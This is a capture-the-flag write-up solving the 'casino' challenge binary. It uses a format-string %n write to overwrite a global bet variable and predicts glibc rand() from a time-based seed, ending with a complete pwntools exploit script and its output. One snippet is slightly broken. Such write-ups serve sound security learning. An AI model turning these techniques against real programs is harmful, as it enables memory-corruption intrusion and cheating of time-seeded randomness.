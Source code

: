 ## fireshellCTF: casino
##### *tl;dr: format string write, predict PRNG output*
#### This took me quite a while to figure out since I had no clue on how to work with the pseudorandom number generator (PRNG), but after some reading (and taking a peek at some other writeups) I finally understood how to do it. First things first, we check the security measures of the binary:
```
$ file casino
casino: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=d5555a0a9faa7cb92e3619e841fb4a5b13288f4e, not stripped

$ checksec casino
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
## Code Review
#### Most security protections are on, so we'll have to figure out things along the way. I decompiled the binary through GHIDRA, and this is the resulting code: 
```c
undefined8 main(void)

{
  int random_number;
  time_t seed;
  FILE *flag;
  long in_FS_OFFSET;
  int win_bet;
  uint loop_condition;
  char buffer [16];
  undefined local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setup();
  seed = time((time_t *)0x0);
  printf("What is your name? ");
  read(0,buffer,0x10);
  printf("Welcome ");
  printf(buffer);
  putchar(10);
  srand((uint)seed / 10 + bet);
  win_bet = 0;
  loop_condition = 1;
  while ((int)loop_condition < 100) {
    random_number = rand();
    printf("[%d/100] Guess my number: ",(ulong)loop_condition);
    __isoc99_scanf(&DAT_00400cd5);
    if (random_number != 0) {
      puts("Sorry! It was not my number");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    puts("Correct!");
    win_bet = win_bet + bet;
    loop_condition = loop_condition + 1;
  }
  if (100 < win_bet) {
    puts("Cool! Here\'s another prize");
    flag = fopen("flag.txt","r");
    fread(local_38,0x1e,1,flag);
    fclose(flag);
    printf("%s",local_38);
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```
#### Reviewing the code, we spot a vulnerable printf call, which signals that we can perform a format string attack against the binary. Looking further down we see how the seed value is generated. We also see a while loop that goes on for 99 iterations checking if the input we supplied is equal to the number generated by the seeded rand function. If we get it correctly, some variables are incremented. The final if case checks if the win_bet variable is greater than 100, then we can be able to get the flag. 
#### The problem is that win_bet is initialized with a value of zero, then is incremented by 1 (bet's value) for the duration of the loop which runs for 99 times - making win_bet only 99 thus failing the check to the if case. The printf vulnerability will come in handy at this point since it will allow us to write to the bet variable, making it possible to bypass the check. 
## The Plan
#### Our plan will be to first overwrite the bet variable via a format string write, generate the random values from the predictable RNG then add the value we wrote bet into it, loop it for a hundred times, then we can get the flag.
## Format String Overwrite
#### We need to find out at which offset we can overwrite stuff, and since I was lazy, I created a short script to automate this for me:
```python
for i in range(1,20):
	p = process('./casino')
	print(p.recv())
	print('Offset {}'.format(i))
	p.sendline('AAAABBBB %{}$p'.format(i))
	print(p.recv())
```
#### Scanning through the results, we see that our buffer is at the 10th offset. Now we just need to supply the address of the bet variable. We can easily get this from gdb:
```
$ gdb ./casino
  gdb-peda$ disas main
  [...]
  0x0000000000400ae2 <+147>:	mov    eax,DWORD PTR [rip+0x201538]        # 0x602020 <bet>
  [...]
  
  gdb-peda$ x/ 0x602020
  0x602020 <bet>:	0x1
```
#### Since this is a 64-bit binary, we need to put the address after the format string, add 1 to the offset since it will adjust accordingly. Now to verify if we did it correctly:
```python
p = process('./casino')
print(p.recv())
p.sendline('%11$p{}'.format(p64(0x602020)))
print(p.recv())
```
```
$ python exploit.py
[x] Starting local process './casino'
[+] Starting local process './casino': pid 19476
What is your name? 
Welcome 0xa0000000000  `
[1/100] Guess my number: 
[*] Stopped process './casino' (pid 19476)
```
#### We can confirm that we correctly placed our target address into the buffer. Next thing we need to do is to write some value into the bet variable, in our case we'll be assigning it with 9. Modifying our exploit script a little bit we get this:
```python
p = process('./casino')
print(p.recv())
p.sendline('%9x%11$n{}'.format(p64(0x602020)))
print(p.recv())
```
#### We'll need to manually test if it works through gdb. Redirect the output of our format string attack to a file and input it to gdb.
```
gdb-peda$ break *0x0000000000400af0
Breakpoint 1 at 0x400af0

gdb-peda$ r < fmt
[...]
Breakpoint 1, 0x0000000000400b0a in main ()

gdb-peda$ x/ 0x602020
0x602020 <bet>:	0x0000000000000009
```
#### Examining the value of the bet variable, we have successfully overwritten it with 9.
## Not Pseu(do) Random
#### Since we already know that the random function is seeded with `time(0) / 10 + bet` we can easily mimic this to get the values we need. This was the problem that kept me stuck on this challenge for so long, but with the help of this [guide](https://github.com/Naetw/CTF-pwn-tips#predictable-rngrandom-number-generator), I easily did it. To check which libc the binary is using, and to get the path to it, we use `ldd`:
```
$ ldd casino
	linux-vdso.so.1 (0x00007ffcadff6000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f83744e0000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f83748d1000)
```
#### From this point will be smooth sailing, since we just follow the guide and do the RNG algorithm on a simple python script:
```python
from ctypes import *
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
seed = libc.time(0) / 10
libc.srand(seed + 9
libc.rand()
```
#### Combining all our little exploits, we get our final exploit script:
```python
from pwn import *
from ctypes import *

#: Connect to challenge server
binary = ELF('./casino', checksec=False)
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
p = binary.process()
print(p.recv())

#: Exploit code
#: PRNG Exploit
seed = libc.time(0) / 10
p.sendline('%9x%11$n{}'.format(p64(0x602020)))
print(p.recv())
libc.srand(seed + 9)

for i in range(99):
	p.sendline(str(libc.rand()))
	print(p.recv())
```
#### Run to get the flag! 
```
$ python exploit.py
[...]
[96/100] Guess my number: 
Correct!
[97/100] Guess my number: 
Correct!
[98/100] Guess my number: 
Correct!
[99/100] Guess my number: 
Correct!
Cool! Here's another prize
F#{buggy_c4s1n0_1s_n0t_f41r!}
```
